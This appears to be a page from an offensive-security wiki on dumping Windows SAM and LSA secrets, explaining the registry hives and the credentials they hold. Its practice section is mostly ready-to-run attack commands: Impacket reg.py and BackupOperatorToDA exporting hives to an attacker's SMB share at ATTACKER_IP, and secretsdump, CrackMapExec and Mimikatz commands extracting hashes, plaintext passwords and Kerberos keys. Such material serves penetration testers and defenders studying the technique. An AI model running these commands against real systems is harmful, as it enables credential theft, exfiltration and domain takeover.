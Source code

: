 ```yaml
---
description: MITRE ATT&CK™ Sub-techniques T1003.002, T1003.004 and T1003.005
---
```


# SAM & LSA secrets

## Theory

In Windows environments, passwords are stored in a hashed format in registry hives like SAM (Security Account Manager) and SECURITY.

| Hive     | Details                                                        | Format or credential material                                                                                                                                                                                               |
| -------- | -------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| SAM      | stores locally cached credentials (referred to as SAM secrets) | LM or NT hashes                                                                                                                                                                                                             |
| SECURITY | stores domain cached credentials (referred to as LSA secrets)  | <p>Plaintext passwords</p><p>LM or NT hashes</p><p>Kerberos keys (DES, AES)</p><p>Domain Cached Credentials (DCC1 and DCC2)</p><p>Security Questions (<code>L$</code><em><code>SQSA</code></em><code>&#x3C;SID></code>)</p> |
| SYSTEM   | contains enough info to decrypt SAM secrets and LSA secrets    | N/A                                                                                                                                                                                                                         |

SAM and LSA secrets can be dumped either locally or remotely from the mounted registry hives. These secrets can also be extracted offline from the exported hives. Once the secrets are extracted, they can be used for various attacks, depending on the credential format.

| Credential material                      | Subsequent attacks                                                                                                                                                                                 |
| ---------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Plaintext passwords                      | [credential spraying](../bruteforcing/password-spraying.md), [stuffing](../bruteforcing/stuffing.md), [shuffling](../shuffling.md) or [silver tickets](../../kerberos/forged-tickets/)             |
| LM and NT hashes                         | [credential spraying](../bruteforcing/password-spraying.md), [stuffing](../bruteforcing/stuffing.md), [shuffling](../shuffling.md), [cracking](../cracking.md), [pass-the-hash](../../ntlm/pth.md) |
| Kerberos keys (RC4, i.e. == NT hash)     | [credential cracking](../cracking.md), [overpass-the-hash](../../kerberos/ptk.md) or [silver tickets](../../kerberos/forged-tickets/)                                                              |
| Kerberos keys (DES, AES)                 | [credential cracking](../cracking.md), [pass-the-key](../../kerberos/ptk.md) or [silver tickets](../../kerberos/forged-tickets/)                                                                   |
| Domain Cached Credentials (DCC1 or DCC2) | [credential cracking](../cracking.md)                                                                                                                                                              |

## Practice

### Exfiltration

{% tabs %}
{% tab title="UNIX-like" %}
[Impacket](https://github.com/SecureAuthCorp/impacket)'s reg.py (Python) script can also be used to do the same operation remotely for a UNIX-like machine. For instance, this can be used to easily escalate from a [Backup Operator](../../domain-settings/builtin-groups.md) member to a Domain Admin by dumping a Domain Controller's secrets and use them for a [DCSync](dcsync.md).

{% hint style="success" %}
The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.
{% endhint %}

```bash
# start an SMB share
smbserver.py -smb2support "someshare" "./"

# save each hive manually
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SAM' -o '\\ATTACKER_IPs\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SYSTEM' -o '\\ATTACKER_IP\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SECURITY' -o '\\ATTACKER_IP\someshare'

# backup all SAM, SYSTEM and SECURITY hives at once
reg.py "domain"/"user":"password"@"target" backup -o '\\ATTACKER_IP\someshare'
```
{% endtab %}

{% tab title="Live Windows" %}
When the Windows operating system is running, the hives are in use and mounted. The command-line tool named `reg` can be used to export them.

```bash
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
```

This operation can be conducted remotely with [BackupOperatoToDA](https://github.com/mpgn/BackupOperatorToDA) (C++).

{% hint style="success" %}
The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.
{% endhint %}

```bash
BackupOperatorToDA.exe -d "domain" -u "user" -p "password" -t "target" -o "\\ATTACKER_IP\someshare"
```

{% hint style="info" %}
Alternatively, from a live Windows machine, the hive files can also be exfiltrated using [Volume Shadow Copy](ntds.md#volume-shadow-copy-vssadmin) like demonstrated for an NTDS export.
{% endhint %}
{% endtab %}

{% tab title="Down Windows" %}
When Windows is not running, the hives are not mounted and they can be copied just like any other file. This can be operated when mounting the hard drive from another OS (e.g. when booting the computer on another operating system). The hive files can be found at the following locations.

```bash
\system32\config\sam
\system32\config\security
\system32\config\system
```
{% endtab %}
{% endtabs %}

### Secrets dump

Here are some examples and tools that can be used for local/remote/offline dumping.

{% tabs %}
{% tab title="secretsdump" %}
[Impacket](https://github.com/SecureAuthCorp/impacket)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) can be used to dump SAM and LSA secrets, either remotely, or from local files. For remote dumping, several authentication methods can be used like [pass-the-hash](../../ntlm/pth.md) (LM/NTLM), or [pass-the-ticket](../../kerberos/ptt.md) (Kerberos).

```bash
# Remote dumping of SAM & LSA secrets
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-ticket)
secretsdump.py -k 'DOMAIN/USER@TARGET'

# Offline dumping of LSA secrets from exported hives
secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM & LSA secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```
{% endtab %}

{% tab title="CrackMapExec" %}
[CrackMapExec](https://github.com/mpgn/CrackMapExec) (Python) can be used to remotely dump SAM and LSA secrets, on multiple hosts. It offers several authentication methods like [pass-the-hash](../../ntlm/pth.md) (NTLM), or [pass-the-ticket](../../kerberos/ptt.md) (Kerberos)

```bash
# Remote dumping of SAM/LSA secrets
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (local user authentication)
crackmapexec smb $TARGETS --local-auth -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-hash)
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-ticket)
crackmapexec smb $TARGETS --kerberos --sam/--lsa
```
{% endtab %}

{% tab title="Mimikatz" %}
[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally with [`lsadump::sam`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/sam) and [`lsadump::secrets`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/secrets) to extract credentials from `SAM` and `SECURITY` registry hives (and `SYSTEM` for the encryption keys), or offline with hive dumps.

```bash
# Local dumping of SAM secrets on the target
lsadump::sam

# Offline dumping of SAM secrets from exported hives
lsadump::sam /sam:'C:\path\to\sam.save' /system:'C:\path\to\system.save'

# Local dumping of LSA secrets on the target
lsadump::secrets

# Offline dumping LSA secrets from exported hives
lsadump::secrets /security:'C:\path\to\security.save' /system:'C:\path\to\system.save'
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**Nota bene** secretsdump and crackmapexec both extract security questions, if any, from the LSA. They are json formatted, UTF-16-LE encoded, and hex encoded on top of that.
{% endhint %}

## Resources

{% embed url="http://moyix.blogspot.com/2008/02/syskey-and-sam.html" %}

{% embed url="http://moyix.blogspot.com/2008/02/decrypting-lsa-secrets.html" %}

{% embed url="https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b" %}

{% embed url="https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/" %}
